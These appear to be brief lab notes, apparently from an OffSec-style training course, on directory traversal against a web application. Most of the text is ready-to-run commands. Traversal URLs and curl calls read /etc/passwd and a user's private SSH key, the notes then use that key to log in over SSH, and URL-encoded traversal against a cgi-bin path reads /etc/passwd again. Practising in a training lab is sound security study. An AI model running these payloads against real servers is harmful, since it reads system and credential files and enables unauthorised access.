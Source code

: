 
Without encoding

```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
```

```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```

```
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```

## Change the name of id_rsa and give (chmod 400)

```
ssh -i dt_key -p 2222 offsec@mountaindesserts.com
```

# By encoding

```
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
